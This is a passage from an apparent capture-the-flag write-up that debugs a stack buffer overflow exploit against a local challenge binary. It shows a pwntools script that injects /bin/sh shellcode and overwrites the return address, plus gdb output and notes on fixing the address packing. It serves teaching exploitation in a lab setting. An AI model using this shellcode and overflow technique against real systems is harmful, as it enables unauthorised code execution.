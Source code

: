 ```
➜  python solve.py
[+] Starting local process './chall': pid 11706
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$ 
[*] Process './chall' stopped with exit code -11 (SIGSEGV) (pid 11706)
```
We didn't get a shell. The process did however end with a segmentation fault. We must investigate this. You can use `gdb.attach(p)` inside pwntools and it will attach gdb to that process.
```py
from pwn import *

p = process('./chall')
gdb.attach(p)
line = p.recv()
# the address of the buffer
addr = line[len("What's this:"):-2] # after colon, except last two characters i.e. ?, '\n' or newline
print "addr:", addr
# the shellcode
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
# our payload
payload = shellcode + "A"*(100-len(shellcode)) + addr
# send it!
p.send(payload)

p.interactive()
```
When you run it, a debugger window pops up, you enter `c` to continue the execution.
```
gef➤  c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
                                                    .
                                                    .
                                                    .
                                                    .
                                                    .

0x66667830 in ?? ()
gef➤ p $eip
0x66667830
gef➤
```
You can see that eip did change but it still looks like trash. With experience you can realise that those are ascii values. If you print it using python:
```
>>> "66667830".decode('hex')
'ffx0'
```
If you view the terminal output for the addr variable, you can understand that it is the bytes from the addr variable. What happened here was that we used the string hex representation as the address, we instead would have to use the raw bytes corresponding to that 32bit value. For this we would first have to convert the value to integer, and then convert or pack it into a string. For packing pwntools has a nice utility called `p32(num)` which converts a number to it's corresponding 32bit bytes representation. We use int(hex_string,16) to convert the hexstring to an integer number.
